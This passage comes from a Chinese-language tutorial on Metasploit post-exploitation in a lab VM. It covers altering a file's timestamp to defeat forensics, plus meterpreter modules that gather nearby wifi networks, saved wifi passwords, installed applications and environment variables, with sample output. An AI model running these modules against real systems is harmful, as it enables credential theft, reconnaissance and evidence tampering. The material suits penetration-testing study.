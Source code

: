 这是一个和计算机取证有关的很有意思的命令，目标计算机上有一个bof-server.exe，我们将其时间改为2017年：

![Bildschirmfoto 2018-10-30 um 9.47.53 PM.png]({{ site.url }}/images/metasploit/58BE08E8C01D26D98A77C37EDE96011D.png)

然后到目标系统上看一下，修改成功了：

![Bildschirmfoto 2018-10-30 um 9.49.18 PM.png]({{ site.url }}/images/metasploit/60AA531EAB556FA634E6E13799A6B72F.png)

## 其他后渗透模块

模块太多，还需要自己深入挖掘。这里展示一些有意思的。

#### 无线网络相关

```bash
# 收集附近的无线网络信息
meterpreter > run post/windows/wlan/wlan_bss_list

[*] WlanAPI Handle Closed Successfully

# 收集wifi密码
meterpreter > run post/windows/wlan/wlan_profile

[*] No wireless interfaces
```

上面显示我的虚拟机附近没有无线网络，这是正常的。。

#### 获取应用程序列表

```bash
meterpreter > run get_application_list

Installed Applications
======================

 Name                                                                                    Version
 ----                                                                                    -------
 010 Editor 6.0.2 (32-bit)
 7-Zip 9.20
 Alternate DLL Analyzer 1.540
 Cheat Engine 6.7
 Compuware SoftICE v4.3.2.2485 & IceExt 0.70 Lite Edition
 HashCheck Shell Extension (x86-32)                                                      2.1.11.1
 HashTab 6.0.0.28                                                                        6.0.0.28
 Hotfix for Microsoft .NET Framework 3.5 SP1 (KB953595)                                  1
 Hotfix for Windows XP (KB954550-v5)                                                     5
```

#### 获取环境变量

```
meterpreter > run get_env
[*] Getting all System and User Variables

Enviroment Variable list
========================

 Name                    Value
 ----                    -----
 APPDATA                 C:\Documents and Settings\Administrator\Application Data
 CLIENTNAME              Console
 ComSpec                 C:\WINDOWS\system32\cmd.exe
 HOMEDRIVE               C:
 HOMEPATH                \Documents and Settings\Administrator
 NUMBER_OF_PROCESSORS    1
```
